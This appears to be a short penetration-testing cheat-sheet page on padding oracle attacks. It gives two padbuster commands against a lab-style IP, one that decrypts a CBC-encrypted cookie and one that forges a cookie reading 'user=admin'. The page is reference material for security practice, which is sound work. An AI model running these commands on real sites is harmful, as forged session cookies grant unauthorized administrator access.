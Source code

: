```yaml
---
title: "Padding Oracle"
date: 2024-6-27
tags: ["padding oracle", "padbuster", "aes", "cbc", "cipher", "encryption"]
---
```


---
### Tools

{{< tab set1 tab1 active >}}padbuster{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# 8 or 16     : block size
# encoding 0  : base64
padbuster http://10.10.11.10/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0
```

```bash
# Forge cookie value, e.g. user=admin
padbuster http://10.10.11.10/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0 -plaintext user=admin
```

</div>

{{< /tabcontent >}}

<small>*Ref: [Download padbuster](https://github.com/AonCyberLabs/PadBuster)*</small>

<br>